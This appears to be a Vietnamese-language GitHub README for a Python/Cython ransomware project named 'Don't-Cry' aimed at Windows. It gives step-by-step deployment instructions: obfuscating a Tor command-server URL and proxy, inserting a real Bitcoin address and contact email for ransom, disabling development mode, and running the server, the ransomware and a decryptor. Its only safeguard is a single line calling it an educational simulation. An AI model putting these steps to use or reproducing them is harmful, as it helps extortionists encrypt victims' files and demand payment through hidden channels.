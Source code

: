 # Don't-Cry Ransomware
![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python\&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python\&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat\&logo=open-source-initiative\&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)
![DCry](https://github.com/memecoder12345678/DCry-Ransomware/blob/main/imgs/DCRY.png)
Ransomware viết bằng Python 💀💀💀
## Cách sử dụng
* Mở file [`DCry.py`](https://github.com/memecoder12345678/DCry-Ransomware/blob/main/src/DCry.py).
* Thay biến `YOUR_URL` bằng URL đã mã hóa sử dụng hàm `dx42` như sau:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Trước đó dùng hàm `ex42` từ module `edx42` để mã hóa URL.)
  
  Ví dụ:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Thay biến `YOUR_PROXY` tương tự với proxy đã mã hóa:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Thay `YOUR_BITCOIN_ADDRESS` bằng địa chỉ Bitcoin thật của bạn.
* Thay `YOUR_EMAIL_ADDRESS` bằng địa chỉ email thật của bạn.
* Đặt `dev_mode = False` để tắt chế độ phát triển.
* Cài đặt các thư viện cần thiết với lệnh:
  ```bash
  pip install -r requirements.txt
  ```
* Biên dịch mã Cython bằng lệnh:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Chạy server với lệnh:
  ```bash
  python src/server.py
  ```
* Chạy ransomware với lệnh:
  ```bash
  python src/DCRY.py
  ```
* Chạy công cụ giải mã với lệnh:
  ```bash
  python src/decryptor.py
  ```
## Cảnh báo
> \[!WARNING]
> Dự án này là mô phỏng ransomware chỉ phục vụ mục đích giáo dục.
## Giấy phép
* Dự án này được cấp phép theo [Apache License 2.0](./LICENSE).
